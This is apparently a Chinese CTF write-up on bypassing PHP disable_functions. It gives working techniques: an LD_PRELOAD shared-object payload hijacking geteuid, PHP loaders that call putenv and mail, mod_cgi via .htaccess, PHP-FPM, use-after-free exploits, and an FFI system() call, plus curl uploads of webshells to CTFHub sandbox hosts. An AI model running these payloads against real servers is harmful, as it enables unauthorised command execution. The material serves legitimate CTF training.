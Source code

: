 ```yaml
---
title: bypass-disable-function
---
```


# bypass disable_function

是 php 禁用的函数，在 phpinfo 中可以查看

例如禁用 system 函数就无法执行命令，然后我们可以用一下方法饶过他的限制

可用的函数有

```
dl
putenv 
error_reporting
error_log
file_put_contents
file_get_contents
fopen
fclose 
fwrite
tempnam 
imap_open
symlink
curl_init
fsockopen
```

利用代码见：http://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions



## 关于文件上传

有些时候需要包含文件，但是又不能访问根目录，以及当前目录没有写权限

我们可以利用自包含的方式传递文件到 /tmp 然后用 var_dump(scandir('/tmp/')) 查看内容，php5 大多数版本可用

例如：

```
curl -F file=@shellshock.php -X POST http://challenge-fc37b0a33351b3a2.sandbox.ctfhub.com:10080/backdoor/index.php?ant=include(%27index.php%27);
```

然后文件就会留在 /tmp 目录,直接包含即可



## LD_PRELOAD

需要用到的条件有

```
Linux 操作系统
putenv
mail or error_log
存在可写的目录, 需要上传 .so 文件
```

用蚁剑插件的话需要当前 shell 目录可写

然后会在当前目录下自动生成这个文件：

```
.antproxy.php
```

之后连接这个文件，密码不变，即可在虚拟终端执行命令

但如果当前目录不可写，可以上传文件至 /tmp，之后包含

首先需要生成 so 文件

test.c ( payload 可替换 )

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("/readflag > /tmp/test");
}   
int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

执行命令

```
gcc -c -fPIC test.c -o test
gcc --share test -o test.so
```

将 c 编译成 so 文件

之后上传 shell.php 和 test.so 至 /tmp

shell.php

```
<?php
    putenv("LD_PRELOAD=/tmp/test.so");
    error_log("test",1,"","");
    mail("test@localhost","","","","");
?>
```

之后包含该 shell.php 文件，即可实现命令执行，输出执行 /realflag 的结果到 /tmp/test



## Apache Mod CGI

需要的条件有

```
Linux 操作系统
Apache + PHP (apache 使用 apache_mod_php)
Apache 开启了 cgi, rewrite
Web 目录给了 AllowOverride 权限
网站目录可写
```

也就是说只要是 Apache + PHP 环境就可能存在这个漏洞

蚁剑插件需要 shell 目录可写，然后即可在虚拟终端执行命令

手动的话，就上传 .htaccess 和 shell.ant 文件到网站目录

然后更改 shell.ant 权限为 777

访问 shell.ant 执行命令



## PHP-FPM

简单来说就是访问 FPM 端口，通过 cgi 从而修改 php 文件设置，使已有 php 文件包含自己传入的命令

需要的条件有

```
Linux 操作系统
PHP-FPM
存在可写的目录, 需要上传 .so 文件
```

通常端口是 9000 但有时也不固定

当 shell 目录可写的时候，使用蚁剑插件可以在当前目录生成一个 .antproxy.php 文件

然后连接这个文件，即可操作终端



## Json Serializer UAF

需要的条件有

```
Linux 操作系统
PHP 版本
7.1.X 
7.2 < 7.2.19 
7.3 < 7.3.6
```

蚁剑插件可直接打开虚拟终端执行命令

手动的话，需要上传文件，比如传到 /tmp 目录，然后包含一下，这里我用 curl 没有上传成功，使用了一个上传页面成功上传

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
</head>
<body>
    <form action="http://challenge-777ab141ad3bd5be.sandbox.ctfhub.com:10080/?ant=include(%27index.php%27);" method="post" enctype="multipart/form-data">
        <input type="file" name="file" />
        <br>
        <input type="submit" />
</body>
</html>
```

然后包含一下

```
?ant=include('/tmp/phpMnoKON');&cmd=/readflag
```

使用 cmd 参数执行命令



## GC UAF

这个就有点强了，适用于目前 PHP7 绝大部分版本

```
- 7.0 - all versions to date
- 7.1 - all versions to date
- 7.2 - all versions to date
- 7.3 - all versions to date
```

蚁剑插件可直接在虚拟终端执行命令，如果不成功，可以手动上传

上传文件至 /tmp 目录，然后包含，即可利用 cmd 参数执行命令

```
?ant=include('/tmp/exp.php');&cmd=/readflag
```



## FFI

使用条件有

```
Linux 操作系统
PHP >= 7.4
开启了 FFI 扩展且 ffi.enable=true
```

蚁剑插件可直接在虚拟终端执行命令

手动上传的话，上传 FFI_exp.php 到 /tmp 目录，修改 FFI_exp.php 中内容执行命令

FFI_exp.php：

```
<?php
    $ffi = FFI::cdef("int system(const char *command);");
    $ffi->system("/readflag > /tmp/123");
    echo file_get_contents("/tmp/123");
    @unlink("/tmp/123");
?>
```

然后包含

```
?ant=include('/tmp/FFI_exp.php');
```

即可获得 flag